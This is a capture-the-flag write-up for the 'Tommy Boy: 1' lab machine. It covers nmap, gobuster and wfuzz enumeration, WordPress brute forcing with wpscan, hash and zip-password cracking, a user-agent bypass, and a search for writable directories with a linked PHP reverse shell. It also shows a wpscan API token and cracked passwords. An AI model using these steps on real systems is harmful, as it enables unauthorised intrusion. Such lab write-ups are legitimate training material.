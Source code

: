 # TOMMY BOY: 1

# 1 Information gathering
## 1.1 Discovery host
`nmap -n -Pn -F 192.168.196.1/24 -oN host_discovery.txt`
![658e8dd5ec063ce4f0cf0e74b55cfbed.png](./_resources/75a1c51c20bd44d1a555735df259b773.png)


## 1.2 Service enum
`nmap -sV -sC -p- 192.168.196.6 -oN full_service_enum-sC.txt`
![11fa5edf7e4938bae413be19e3f7beb4.png](./_resources/0e0299dd2a0c4b3396a3f4b51f427926.png)

`nmap -sV -sU -F 192.168.196.6 -oN udp-sC-sV.txt`

## 1.3 Web 80
### 1.3.1 Gobuster enum web content
`gobuster dir -u http://192.168.196.6 -w /usr/share/wordlists/dirb/big.txt -t 50 -x php,bkp,bak,txt,html,aspx -f -o info-slash.txt`
Here we can grep responses that dont contain `7` (starting number for default response size):
![a2e1d1919eaeb2eafe036e118baf8669.png](./_resources/d8e09f94168e478f984cd4772525e3b3.png)

`gobuster dir -u http://192.168.196.6 -w /usr/share/wordlists/dirb/big.txt -t 50 -x php,bkp,bak,txt,html,aspx -o info.txt`

And here, we can grep responses that dont contain `302`:

![377c51c3851031d039d6e85244ece65a.png](./_resources/0d2f83f1b7c246b49f043b3c0961e4ab.png)

![7bcaecbd5080985313ea7d05486faba1.png](./_resources/b6bd04886b8e47c8a11f7288e825d57a.png)

![5c69086f685644983d4b721991720c63.png](./_resources/af86d7f258ec4ba9a40294507fb37992.png)

### 1.3.2 Html source code
![da4e1fa0bfb2f3c44e6d9fa2ff71a9b7.png](./_resources/f16c8efc829640e9adc047f547000e26.png)
There is a conversation.
There is a hint to find the blog name. The youtube video provided there says: “prehistoric forest”.
We tried use it as folder, and bingo!
![c1833446dc7e47bc4cbff8d7a0072105.png](./_resources/e7a1a0d49d8c46eaaf419b896c219bea.png)

### 1.3.3 Wordpress found
`gobuster dir -u http://192.168.196.6/prehistoricforest/ -w /usr/share/wordlists/dirb/big.txt -t 50 -x php,bkp,bak,txt,html,aspx -f -o info-slash.txt`

![9bfe5c495ef9258eef2cc20d52f9ff41.png](./_resources/383ccd374d1f4f34b5e8127533321afd.png)

#### 1.3.3.1 Wpscan
`wpscan --url http://192.168.196.6/prehistoricforest/ -e ap,at,tt,cb,dbe,u1-20,m --plugins-detection aggressive --disable-tls-checks --api-token 7MBL9noH6s6pOW5qAM6boXVS5wEMayvrBaaoBbMaIKg -o all-info.txt --ignore-main-redirect`

#### 1.3.3.2 Wordpress protected page
![84049290c07b861013556e388cc4bf00.png](./_resources/66f5982a6e574ff49941c2d8e8fd21f5.png)

Tom jr asked a question, and there is a interesting comment:

![da78716a22383f34f7085f60d4b305c7.png](./_resources/513578f0b1024afab94edce136dae94e.png)

Using `strings` on the image found in the directory mentioned, there is a MD5 hash:

![b2c81ce84824fe6e342b70aadccdc50b.png](./_resources/a919d8af0b904d54b04b3d5e931c9da9.png)
`ce154b5a8e59c89732bc25d6a2e6b90b`

![50a36a5563590094acc32c0ecf663a33.png](./_resources/291373b931ed4cb79377c3d22bb2db52.png)
`spanky`

Now we can unprotect this page and read it:

![04be124c8af1ea346819447848200483.png](./_resources/ef24e1635c014fa283bcab2dd3aedabf.png)
![b17f52db64eb5d3c35283187e12bc395.png](./_resources/8462515d0f2a4ed3be3d3af3290ea4b9.png)

## 1.4 Simple bash script to find intermittent ftp port
With the above tips found previously, we can search this ftp port using a simple script:
```
#!/bin/bash

while true; 
do
	echo "[!] Executando varredura!"
   	nmap -p- -sV -T4 192.168.196.6 -n -Pn | grep -i ftp > teste.txt

   	if [ -s ./teste.txt ];
	then
		cat teste.txt
		exit 0
	fi
done
```

# 2 Exploitation
## 2.1 Brute force with wpscan
`wpscan --url http://192.168.196.6/prehistoricforest/ -P /root/shared/rockyou.txt -U users.txt -t 100`

![ec2581a159efe01c8e819d749803ef69.png](./_resources/7eb3eae7a782465ea143e096b39f7c54.png)

## 2.2 Login as nickburns using simple password
With the previous tip about logging in to ftp as nickburns, we tried using the username as the password and it works:

![c1229df1fcb0993b7058f7f90aa4ae57.png](./_resources/fd570b05cbd04ec4bc0492e1416f5845.png)
![3fc6379d8ddf9b3d351dc65d5c7dafb3.png](./_resources/38b41202977c469e9f32f732d27a0cd2.png)

## 2.3 Bypass user-agent based blocking
Accessing the cited directory, we can't view the content. But there is a message with a tip:

![69fb23bae6aafb159f8543062f6f1008.png](./_resources/8de5fe233e984be98b14fba3d3bb80bb.png)

Changing the user-agent to another, an iphone's agent, we can view the full content:

https://developers.whatismybrowser.com/useragents/explore/operating_system_name/ios/
![0ad5561dd94442f8ffb94f6d764603b0.png](./_resources/11c641314f714585a28da7ec9afb58f3.png)
Another tip!

### 2.3.1 Wfuzz enum web content
`wfuzz -u "http://192.168.196.6/NickIzL33t/FUZZ.html" -w root/shared/rockyou.txt -f info.txt -H "User-Agent: Mozilla/5.0 (iPhone; CPU iPhone OS 12_2 like Mac OS X) "`

We receveiced a `200` response with different size:

![77bd6ff06894d3ebe4691322dc304c7e.png](./_resources/e40d8a90d4cc4e4eba00178ea6ca3d22.png)

### 2.3.2 New file - fallon1.html
![778a8c7ca1a3de623f20c306cc0330f8.png](./_resources/c65c2f4511a34a0fb92170725fb59b59.png)

#### 2.3.2.1 A hint
![a6ece17da2d1d4b59f751e094d3f329a.png](./_resources/8c2fa19c6eaf4d73ad669cf7c9637549.png)

#### 2.3.2.2 A zip file with password
![0d86f4abadc393b10f38527a174d69d7.png](./_resources/da9ca7afe6234e4e803ea624ba752d2a.png)

#### 2.3.2.3 Upload cababilities
![80b4b2e3ed3574c08af0f3d8edb497e0.png](./_resources/e518e479ed324c549e21621be042ffd6.png)
Without success here.

### 2.3.3 Generate wordlist with Cruch and cracking zip file with John

`crunch 13 13 -t bev,%%@@^1995 > wordlist.txt`

`zip2john t0msp4ssw0rd.zip > hash.hash`

`john hash.hash wordlist.txt`

Or you can user fcrackzip
`fcrackzip -v -u -D -p wordlist.txt t0msp4ssw0rdz.zip`

![f4fdee485d2ef94aa40596743d92f818.png](./_resources/247028d5cda1454e8ca9f0be7fbe124e.png)
bevH00tr$1995

![399de380e4f1a29a08d22ec3455e510f.png](./_resources/d87cb02df28e43a78c1e744001e42518.png)

### 2.3.4 Another hint that reveals a page with info
![dd543fa7906c4852e6b1dd3d5834edf6.png](./_resources/f06331d37f224910918e2667f68b92e9.png)

![e5d6537cb822b77ccbff65a5b2ebf92a.png](./_resources/757ce0a918904da1ba120fa3f63d1e42.png)
fatguyinalittlecoat1938!!

### 2.3.5 Login as bigtommysenior
![e2f9b511a91784f6a3fb008076b512af.png](./_resources/5109045aeae54ffca292ea451d6a2e86.png)


# 3 Post-exploitation
Was used LinEnum.sh to enumerate this Linux, but without good results.
At this points, the option was manually find writable files due LinEnum.sh don't found the necessary file.

`find / -perm -222 -type d 2>/dev/null`

![aec84f362889f16aaf0ee1e0de07e0b7.png](./_resources/c8554937aad148669fa7fa6865605902.png)
Here we can create a reverse shell file, use it and verify if the web system uses another user.

## 3.1 Reverse shell (pentest monkey)
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
![a0771ad1846c6b2f3ff2b20e9d265ee9.png](./_resources/c73f22ecae044de998995edd40392b36.png)

It is worth remembering that this machine does not have root escalation, so we finish here.
